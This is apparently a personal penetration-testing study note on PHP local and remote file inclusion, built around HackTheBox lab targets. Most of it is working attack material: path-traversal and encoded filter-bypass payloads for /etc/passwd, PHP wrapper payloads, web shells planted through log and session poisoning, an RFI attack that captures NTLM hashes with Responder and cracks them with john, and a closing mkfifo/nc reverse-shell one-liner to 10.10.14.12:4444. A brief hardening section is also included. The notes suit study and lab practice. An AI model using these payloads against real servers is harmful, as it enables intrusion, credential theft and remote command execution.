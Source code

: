 LFI and RFI attack range from sensitive information disclosure and Cross-site Scripting to Remote Code Execution
LFI we can  view or access the Local files on the server
in LFI we can access files on system like 
Example - http://example.com/?file=filename.php
or in worst case scenario upload a malicious   code to the server 	http://example.com/?file=../../uploads/evil.php
but even if we can upload we still don't know if it will be uploaded on same server that has the LFI exploit 

# LFI
more examples :
http://example.com/?file=../../../../etc/passwd
scripts can employ search and replace techniques to avoid path traversals. For example:

Code: php
$language = str_replace('../', '', $_GET['language']);
....//....//....//....//....//....//....//....//etc/passwd

In this scenario, input such as ../../../../../etc/passwd will result in the final string to be lang_../../../../../etc/passwd, which is invalid.
../../../../../etc/passwd
Bypass with URL Encoding
On PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload. The characters ../ can be URL encoded into %2e%2e%2f, which will bypass the filter.

In the last example ....// can be URL encoded into %2e%2e%2e%2e%2f%2f.

The payload %2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd 
# wrappers

https://www.php.net/manual/en/wrappers.php.php

php://filter/read=/resource=/etc/passwd 
The following filters will convert the contents of /etc/passwd to base64 and ROT13, respectively.

  Source Code Disclosure via PHP Wrappers
php://filter/read=convert.base64-encode/resource=/etc/passwd
php://filter/read=string.rot13/resource=/etc/passwd

# log poisoning 
default apache log file path
/var/log/apache2/access.log
in old apache servers and nginx servers logs are readable by low priv users such as www 
and the logs contain everything about the request and their User-Agent  we can use the User-Agent string to add our #RCE  
```php

<?php phpinfo(); ?> # Check for php info



<?php system($_GET['cmd']); ?> 

<?php system($_REQUEST["cmd"]); ?>

<?php echo system($_REQUEST["cmd"]); ?>

&cmd=COMMAND

/var/log/apache2/access.log

```
this gets executed by the server and we can run our code 
![[Pasted image 20210930225753.png]]
similar files to do that 
/var/log/nginx/access.log,
/var/log/sshd.log, 
/var/log/mail, 
and /var/log/vsftpd.log.
/proc/self/environ file can be included, which can be poisoned through the User-Agent string.
/var/log/httpd-access.log
# RCE through PHP Session Files
default path /var/lib/php/sessions/sess_SESSION
C:\Windows/Temp
we can try and poison the session file by adding stuff after the ?example=CODE
We can see that the session file contains language preference and the selected page. Let's try poisoning the value of page by sending something through the language parameter. First, request the below URL:

http://134.209.184.216:32415/index.php?language=session_poisoning
This should "poison" the session file and add session_poisoning to it. Let's include the session file once again to look at the contents.

http://134.209.184.216:32415/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd

This time the session file contains session_poisoning instead of es.php, which confirms our ability to poison the session file. Next, let's write a PHP web shell to it using the following URL:

http://134.209.184.216:32415/index.php?language=
```
<?php system($_GET['cmd']); ?>
```
We can now include the session file and use the cmd parameter to execute operating system commands.

issue with this that we can only run a command only once 

# Expect Wrapper
The expect wrapper in PHP helps in interaction with process streams. This extension is disabled by default but can prove very useful if enabled. For example, the following URL will return the output of the id command.

http://blog.inlanefreight.com/index.php?language=expect://id

# base64 wrapper



```
php://filter/convert.base64encode/resource=

```



# Zip Wrapper
The zip wrapper can prove useful in combination with file uploads. If the website allows uploading arbitrary files, an attacker can upload a malicious zip file and include PHP code. 

The files in the zip archive can be referenced using the # symbol, which should be URL-encoded in the request
http://134.209.184.216:30489/index.php?language=zip://malicious.zip%23exec.php&cmd=id
# RFI

 RFI accrues when the allow_url_open setting (enabled by default) and allow_url_include setting have to be turned on
 then we can start a SMB or FTP or HTTP server on our machine and upload a shell code and execute commands by making the server connecting to us and get the shell 
 ![[Pasted image 20211001164936.png]]
 ![[Pasted image 20211001164956.png]]
 When the application is running on Windows, the restrictions applied by allow_url_include can be bypassed by using the SMB protocol.
 ![[Pasted image 20211001165028.png]]
 example :
 =http://OURIP/FILE
 =ftp://
 
 # phpinfo lfi
 https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
 https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf
 ![[Pasted image 20211101190518.png]]

## Also in windows
If "allow_url_include" wrapper is set to "Off" by default, indicating that PHP does not load remote HTTP or FTP URLs to prevent remote file inclusion attacks
however php doesn't prevent smb connection so what the attacker can do is host a smb server with [[TCM-Security/AD/Post-Compromise Enum-attacks/Tools]] and because how windows works with smb 
NTLM is a collection of authentication protocols created by Microsoft
The NTLM authentication process is done in the following way :
1. The client sends the user name and domain name to the server.
2. The server generates a random character string, referred to as the challenge.
3. The client encrypts the challenge with the NTLM hash of the user password and sends it back to the server.
4. The server retrieves the user password (or equivilent)
5. The server uses the hash value retrieved from the security account database to encrypt the challenge string. The value is then compared to the value received from the client. If the values match, the client is authenticated.
so what the attacker can do is host smb server through responder and capture the NTLM hash and crack it 
**Example**
Hackthebox starting point **Responder** machine 

First we host our server with responder
```
sudo responder -I tun0 -dwv 

http://unika.htb/index.php?page=//10.10.16.42/somefile

echo "HASH" > hash

john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![[Pasted image 20221117223325.png]]
then we access our machine with the RFI we found 
![[Pasted image 20221117223409.png]]

 ![[Pasted image 20221117223448.png]]
 and we get the hash next we save the hash to a file 
 and crack it with john
 ![[Pasted image 20221117223509.png]]
 
# defending side 
 -  if the system() function is blocked, a log will be created about the blocked functionality being used when an attacker uses it.
 -  web applications should never display error messages to the website edit the php.ini file and verify: display_errors = Off is set
 -  To block system() in PHP, append the functions you want to block to the "disabled_functions" lines of PHP. A list of functions recommended blocking is: system, passthru, shell_exec, popen, proc_open, curl_exec, curl_multi_exec, parse_ini_file, show_source; allow_url_fopen and allow_url_include to Off.
 -  using a docker preventing them from accessing non-web related files.  
 -  if docker isnt an option  adding open_basedir = /var/www in the php.ini file
 -  using WAF Web Application Firewall 

## If you get local file inclusion for log, you can log poison the logs



```
<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4444 >/tmp/f') ?>